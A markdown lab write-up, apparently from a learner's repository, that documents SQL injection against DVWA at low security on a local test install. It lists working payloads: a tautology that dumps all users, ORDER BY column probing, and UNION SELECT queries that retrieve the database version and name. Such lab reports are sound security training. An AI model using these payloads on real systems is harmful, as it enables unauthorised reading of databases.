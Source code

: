 # 🔓 SQL Injection Exploitation Report – DVWA (Low Security)

## 📘 Summary
This report demonstrates a successful exploitation of a SQL Injection vulnerability in the Damn Vulnerable Web Application (DVWA) with security level set to "Low". The objective was to extract data from the backend database using basic SQLi techniques.

---

## 🧪 Target Information

- **Target Application:** DVWA (Damn Vulnerable Web App)
- **Security Level:** Low
- **Vulnerability:** SQL Injection
- **Test URL:** `http://localhost/DVWA/vulnerabilities/sqli/`

---

## 🔍 Vulnerability Overview

The SQL Injection vulnerability exists in the user input field where the input is not properly sanitized before being embedded into a SQL query.

The likely vulnerable query in source code:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
🧭 Steps to Reproduce
1. Open the SQL Injection Page
Navigate to:

DVWA > SQL Injection

You'll see a user input form like:
User ID: [ ______ ] [Submit]

2. Initial Payload – Authentication Bypass / Dump All Records

Used the following input:

1' OR '1'='1
![sqli all users.png](file:///C:/Users/moham/OneDrive/Documents/sqli-all-users.png.png)

Result:
All user records were returned. This confirms that the input is directly embedded into a SQL query without sanitization.



3.Column Count Discovery

To prepare for a UNION SELECT, column count was discovered using:

1' ORDER BY 1-- 
1' ORDER BY 2-- 
1' ORDER BY 3-- 
![sqli db version.png](file:///C:/Users/moham/OneDrive/Documents/sqli-db-version.png.png)

Finding: 2 columns exist in the original SELECT query

4.Union-based SQL Injection – Retrieve Database Version

1' UNION SELECT 'version', @@version-- 

![sqli db name.png](file:///C:/Users/moham/OneDrive/Documents/sqli-db-name.png.png)

Result:
The database version (e.g., 10.5.18-MariaDB) was shown in place of one of the name fields.



5. Retrieve Current Database Name

1' UNION SELECT 'database', database()-- 

![sqli orderby.png](file:///C:/Users/moham/OneDrive/Documents/sqli-orderby.png.png)

Result:
The current database name (likely dvwa) was displayed.

✅ Vulnerability Analysis

The application is vulnerable to SQL injection due to dynamic query construction using unsanitized user input.

The attack allowed reading database data without authentication or access control.

Data exfiltration was successful using UNION SELECT.

📎 Notes

This test was conducted in a controlled local environment using DVWA in Kali Linux. All actions were taken for educational and ethical purposes only.




